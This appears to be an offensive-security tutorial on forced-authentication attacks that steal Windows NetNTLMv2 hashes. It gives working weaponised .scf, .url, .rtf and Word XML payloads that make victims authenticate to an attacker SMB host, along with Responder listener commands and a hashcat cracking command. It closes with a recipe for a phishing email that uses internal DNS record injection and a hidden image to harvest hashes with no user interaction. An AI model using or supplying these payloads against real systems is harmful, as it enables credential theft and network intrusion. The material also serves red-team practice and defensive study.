








# Forced Authentication

## Execution via Hyperlink

Let's create a Word document that has a hyperlink to our attacking server where  `responder` will be listening on port 445:





Let's start `Responder` on our kali box:


```csharp
responder -I eth1
```


Once the link in the document is clicked, the target system sends an authentication request to the attacking host. Since responder is listening on the other end, victim's `NetNTLMv2` hash is captured:



The retrieved hash can then be cracked offline with hashcat:

```csharp
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

Success, the password is cracked:


Using the cracked passsword to get a shell on the victim system:


## Execution via .SCF

Place the below `fa.scf` file on the attacker controlled machine at `10.0.0.7` in a shared folder `tools`


```csharp
[Shell]
Command=2
IconFile=\\10.0.0.5\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```




A victim user `low` opens the share `\\10.0.0.7\tools` and the `fa.scf` gets executed automatically, which in turn forces the victim system to attempt to authenticate to the attacking system at 10.0.0.5 where responder is listening:





What's interesting with the `.scf` attack is that the file could easily be downloaded through the browser and as soon as the user navigates to the `Downloads` folder, users's hash is stolen:



## Execution via .URL

Create a weaponized .url file and upload it to the victim system:


```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.0.0.5\%USERNAME%.icon
IconIndex=1
```


Create a listener on the attacking system:


```text
responder -I eth1 -v
```


Once the victim navigates to the C:\ where `link.url` file is placed, the OS tries to authenticate to the attacker's malicious SMB listener on `10.0.0.5` where NetNTLMv2 hash is captured:



## Execution via .RTF

Weaponizing .rtf file, which will attempt to load an image from the attacking system:


```csharp
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://10.0.0.5/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```


Starting authentication listener on the attacking system:


```text
responder -I eth1 -v
```


Executing the file.rtf on the victim system gives away user's hashes:



## Execution via .XML

MS Word Documents can be saved as .xml:


This can be exploited by including a tag that requests the document stylesheet \(line 3\) from an attacker controlled server. The victim system will share its NetNTLM hashes with the attacker when attempting to authenticate to the attacker's system:

```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<?mso-application progid="Word.Document"?>
<?xml-stylesheet type="text/xsl" href="\\10.0.0.5\bad.xsl" ?>
```

Below is the attack illustrated:




## Execution via Field IncludePicture

Create a new Word document and insert a new field `IncludePicture`:



Save the file as .xml. Note that the sneaky image url is present in the XML:


Launching the document gives away victim's hashes immediately:




## Execution via HTTP Image and Internal DNS

If we have a foothold in a network, we can do the following:

* Create a new DNS A record \(any authenticated user can do it\) inside the domain, say `offense.local`, you have a foothold in, and point it to your external server, say `1.1.1.1`
  * Use [PowerMad](https://github.com/Kevin-Robertson/Powermad) to do this with: `Invoke-DNSUpdate -dnsname vpn -dnsdata 1.1.1.1`
* On your controlled server 1.1.1.1, start `Responder` and listen for HTTP connections on port 80
* Create a phishing email, that contains `` 
  * Feel free to make the image 1x1 px or hidden
  * Note that `http://vpn.offense.local` resolves to `1.1.1.1` \(where your Responder is listening on port 80\), but only from inside the `offense.local` domain
* Send the phish to target users from the `offense.local` domain
* Phish recipients view the email, which automatically attemps to load the image from `http://vpn.offense.local`, which resolves to `http://1.1.1.1` \(where Responder is litening on port 80\)
* Responder catches NetNLTMv2 hashes for the targeted users with no user interaction required
* Start cracking the hashes
* Hopefully profit

## References















